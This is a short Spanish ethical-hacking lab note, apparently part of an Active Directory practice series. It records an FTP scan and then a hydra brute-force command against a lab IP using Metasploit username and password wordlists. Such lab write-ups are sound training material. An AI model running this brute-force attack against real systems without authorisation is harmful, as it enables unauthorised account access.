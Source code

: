 #HackingActiveDirectoy #PinguinoMario #HackingEtico 
Hacemos un escaneo y vemos que el puerto 21 está abierto:
![[Pasted image 20230727153653.png]]
Pero no permite el login como anonymous:
![[Pasted image 20230727153713.png]]
Por tanto hacemos ataque de fuerza bruta usando diccionarios de metasploit con hydra:
```bash
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.2.25.40 ftp
```
![[Pasted image 20230727154835.png]]